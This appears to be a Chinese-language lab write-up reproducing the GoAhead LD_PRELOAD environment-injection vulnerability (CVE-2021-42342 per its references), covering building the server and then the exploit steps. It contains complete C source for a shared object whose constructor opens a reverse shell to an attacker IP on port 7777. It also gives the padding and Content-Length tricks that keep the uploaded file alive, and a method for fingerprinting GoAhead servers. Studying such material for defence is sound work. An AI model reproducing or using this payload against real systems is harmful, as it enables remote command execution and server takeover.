

# 1.Goahead编译

## 1.1下载源码

```
wget https://github.com/embedthis/goahead/archive/refs/tags/v5.1.4.tar.gz
//解压然后cd
make
sudo make install
```

这个时候已经编译完了，但是还需要证书才能启动


## 1.2.移动证书文件

```
cp ./build/linux-aarch64-default/bin/self.key /etc/goahead/
cp ./build/linux-aarch64-default/bin/self.crt /etc/goahead/
```

## 1.3.修改cgi设置

`vim /etc/goahead/route.txt`


## 1.4.放入cgi文件


## 1.5.启动goahead


访问端口，提示`Congratulations! The server is up and running.`说明正常运行了

# 2.Exp

通过burp发送LD_PRELOAD包


服务端控制台打印出load失败说明LD环境变量注入成功了


尝试上传文件，提示无法打开文件，tmp目录没创建,需要` mkdir /etc/goahead/tmp`


编译so文件

```c

#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="***";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```


burp关闭length自动更新



手动设置为10000


so文件后添加脏字符，让实际包大小大于10000，避免文件上传完了，直接删了文件描述符


# 3.goahead特征

goahead在响应头上并没有特征，可以利用too big的特性来进行识别

goahead为了避免爆内存，body大于16384的时候就会断开链接


等于的时候就会正常服务


# 参考文章

> https://www.leavesongs.com/PENETRATION/goahead-en-injection-cve-2021-42342.html
>
> https://www.elttam.com/blog/env/#content
